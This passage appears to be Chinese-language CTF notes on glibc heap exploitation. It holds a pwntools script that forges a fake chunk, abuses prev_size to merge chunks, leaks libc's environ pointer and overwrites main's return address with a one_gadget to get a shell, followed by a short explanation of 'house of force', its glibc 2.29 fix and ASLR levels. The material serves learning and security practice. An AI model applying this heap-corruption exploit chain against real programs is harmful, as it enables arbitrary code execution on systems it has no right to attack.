 ```python
fake_chunk_size = 0x101
fake_chunk = p64(0) + p64(fake_chunk_size) + p64(fake_chunk_addr) + p64(fake_chunk_addr)
edit(3,b'e'*0x20 + fake_chunk)

diff = heap_base + 0x20 - fake_chunk_addr
log.info("diff : " + hex(diff))

# padding with b'\x00'
prev_size_len = len(p64(diff).strip(b'\0'))
for i in range(8,prev_size_len-1,-1):
	edit(1,b'f'*0x10 + b'f'*i)
edit(1,b'f'*0x10 + p64(diff))
delete(2)

edit(4,b'd'*0x20+p64(0)+p64(0x101)+p64(main_arena+88)+p64(main_arena+88)) 

one_gadget = libc_base + 0xf1247 
environ_addr = libc_base + libc.sym['environ']

fake_pad = b'g'*(0x100-0x20-0x10) + b'a'*8 + p64(environ_addr) +b'a'*8 +  p64(0x602148)
add(0x100-8,fake_pad)

p.recvuntil(b'CONTENT: ')
leak = u64(p.recv(6).ljust(8,b'\x00'))
environ = leak
log.success('environ ==> ' + hex(environ))
main_ret_addr = environ - 240

edit(2,p64(main_ret_addr))
edit(1,p64(one_gadget))

p.recvuntil(b'(CMD)>>> ')
p.sendline(b'q')
 
p.interactive()
```

# house of force
该方法已在glibc-2.29失效，在use top处加了如下代码
```c
victim = av->top;
size = chunksize (victim);

if (__glibc_unlikely (size > av->system_mem))
  malloc_printerr ("malloc(): corrupted top size");
```

注意，测试时关闭了ASLR，这样就不用泄露heap基址了
- 0 没有地址空间随机化
- 1 部分地址空间随机化，将mmap基址，栈基址和.so文件基址随机化
- 2 完全地址空间随机化，在1的基础上加上heap基址，这是默认选项 
